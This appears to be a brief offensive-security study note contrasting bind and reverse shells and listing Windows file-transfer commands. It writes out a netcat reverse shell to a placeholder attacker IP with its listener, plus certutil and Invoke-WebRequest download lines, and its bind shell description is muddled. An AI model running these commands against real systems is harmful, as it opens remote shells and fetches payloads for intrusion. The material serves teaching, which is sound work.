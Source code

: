 ### Bind Vs Reverse Shell
1. **Bind shell**
 - The attacker makes a client that listens for open ports coming from the compromised system, and the compromised system becomes the server.
```bash
  nc <target-ip> <port> 
```

2. **Reverse Shell**
  - The attacker becomes the server.
  - The compromised system becomes the client.

---

3. **Spawn Reverse Shells**
- On Windows machine execute:
```powershell
  .\nc64.exe <attacker-ip> 4444 -e cmd
```

- On Linux (attacker machine):
```bash
   nc -lnvp 4444
```
![](images/spwan.png)

---

### Transfer Files
1. Using **certutil** → it's a CMD utility for transferring files:
```cmd
   certutil -urlcache -split -f <url> <output-file>
```
![](images/cert1.png)

2. **iwr** → Invoke-WebRequest → This utility is used in PowerShell:
```powershell
  iwr -uri <url> -OutFile <output-file>
```